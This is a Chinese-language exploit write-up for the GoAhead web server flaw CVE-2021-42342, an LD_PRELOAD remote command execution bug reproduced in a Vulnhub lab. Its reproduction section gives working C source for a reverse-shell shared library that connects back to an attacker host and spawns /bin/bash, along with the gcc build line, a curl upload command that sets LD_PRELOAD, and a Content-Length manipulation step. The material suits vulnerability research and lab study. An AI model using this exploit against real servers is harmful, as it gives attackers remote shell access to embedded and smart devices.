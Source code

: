 # Goahead LD_PRELOAD 远程命令执行漏洞 CVE-2021-42342

## 漏洞描述

GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序。

这个漏洞是 CVE-2017-17562 漏洞补丁的绕过，攻击者可以利用该补丁没有考虑到的multipart表单控制目标服务器的环境变量，进而劫持LD_PRELOAD来执行任意代码。

## 漏洞影响

<a-checkbox checked>5.x <= GoAhead web-server < 5.1.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="GoAhead"</a-checkbox></br>

## 漏洞复现

使用Vulnhub下的靶场进行搭建

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657072904829-9775cbdc-249f-42d1-8d8b-f7f016600500.png)

编译恶意 so 文件

```php
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
gcc evil.c -fPIC -s -shared -o evil.so
```

发送 evil.so 恶意文件

```php
curl -v -F data=@evil.so -F "LD_PRELOAD=/proc/self/fd/0" http://xxx.xxx.xxx.xxx:8080/cgi-bin/hello
```

发送请求后抓包将`Content-Length`设置成小于最终的数据包Body大小，并爆破 `/proc/self/fd/1 反弹 shell `

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657075996296-e5f8e37e-33db-424b-a040-5e890fad829a.png)